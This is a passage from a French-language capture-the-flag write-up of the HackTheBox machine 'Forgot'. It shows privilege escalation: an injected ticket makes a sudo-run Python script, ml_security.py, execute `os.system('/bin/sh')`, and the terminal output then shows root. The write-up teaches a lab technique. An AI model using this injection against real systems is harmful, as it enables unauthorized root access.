
Une fois que le script 'ml_security.py' aura detecté notre injection `#<script>alert()</script>`, 
Il lancera la commande `import os; os.system('/bin/sh')` avec les droits 'root' puisque le script peut se lancer avec 'sudo'.


Nous allons soumettre un nouveau ticket mais cette fois-ci avec notre payload :



![HTTP_payload.png](https://github.com/RawMain121/writeups/blob/main/HackTheBox/Forgot/_resources/HTTP_payload.png)

Une fois le payload envoyé, nous pouvons lancer le script '**ml_security.py**' :


```bash
$ sudo /opt/security/ml_security.py 
2023-03-20 14:57:48.359173: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-03-20 14:57:48.359217: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
# id
uid=0(root) gid=0(root) groups=0(root)
```
Nous voilà administrateur de la machine !
